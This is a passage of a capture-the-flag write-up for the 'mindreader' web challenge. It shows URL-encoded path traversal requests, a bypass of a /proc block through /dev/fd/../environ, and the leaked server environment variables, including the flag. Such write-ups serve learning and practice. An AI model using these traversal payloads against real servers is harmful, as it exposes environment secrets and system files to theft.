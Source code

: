 <p>Nope. When trying <b>proc/version</b>, we get forbidden, so that's something new. </p>

{% highlight html %}
https://mindreader.web.ctfcompetition.com/?f=..%2F..%2F..%2F..%2Fproc%2Fversion

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>403 Forbidden</title>
<h1>Forbidden</h1>
<p>You don't have the permission to access the requested resource. It is either read-protected or not readable by the server.</p>
{% endhighlight %}

<p>Every file in <b>/proc</b> seems to be protected. But after good (and educational!) few hours of looking, I've managed to find something in Linux man pages. Let's take a look at <b>/proc/[pid]/environ</b>. </p>

{% highlight text %}
/proc/[pid]/environ
       This file contains the initial environment that was set when
       the currently executing program was started via execve(2).
       The entries are separated by null bytes ('\0'), and there may
       be a null byte at the end.  Thus, to print out the environment
       of process 1, you would do:

           $ strings /proc/1/environ

       If, after an execve(2), the process modifies its environment
       (e.g., by calling functions such as putenv(3) or modifying the
       environ(7) variable directly), this file will not reflect
       those changes.

       Furthermore, a process may change the memory location that
       this file refers via prctl(2) operations such as
       PR_SET_MM_ENV_START.

       Permission to access this file is governed by a ptrace access
       mode PTRACE_MODE_READ_FSCREDS check; see ptrace(2).
{% endhighlight %}

<p>As enviroment can be very useful, I decided that that's the path I wanna go in this challenge. But as <b>/proc</b> is forbidden, we have to find a different way. Here comes Stackoverflow to the rescue, let's look at this <a href="https://unix.stackexchange.com/questions/18255/how-does-dev-fd-relate-to-proc-self-fd"><b>thread</b></a>!</p>

<p>But trying <b>/dev/fd/environ</b> is once again - not found. I have to be missing something. Let's rethink that - we use a symlink to get into <b>/proc/self/fd</b>, and now we have to go back one directory and then jump to envrion. Got it! </p>

{% highlight html %}
https://mindreader.web.ctfcompetition.com/?f=%2Fdev%2Ffd%2F..%2Fenviron

GAE_MEMORY_MB=614HOSTNAME=a2c5f45b98c8GAE_INSTANCE=aef-mindreader--sss6w3uqjfrcntmn-20170618t144344-8r7fPORT=8080HOME=/rootPYTHONUNBUFFERED=1GAE_SERVICE=mindreader-sss6w3uqjfrcntmnPATH=/env/bin:/opt/python3.5/bin:/opt/python3.6/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binGAE_DEPLOYMENT_ID=402060873983974243LANG=C.UTF-8DEBIAN_FRONTEND=noninteractiveGCLOUD_PROJECT=ctf-web-kuqo48dGOOGLE_CLOUD_PROJECT=ctf-web-kuqo48dCHALLENGE_NAME=mindreaderVIRTUAL_ENV=/envPWD=/home/vmagent/appGAE_VERSION=20170618t144344FLAG=CTF{ee02d9243ed6dfcf83b8d520af8502e1}
{% endhighlight %}

<p>And along with the environ, there's a hidden flag! </p>

<p>~ Stay safe! </p>

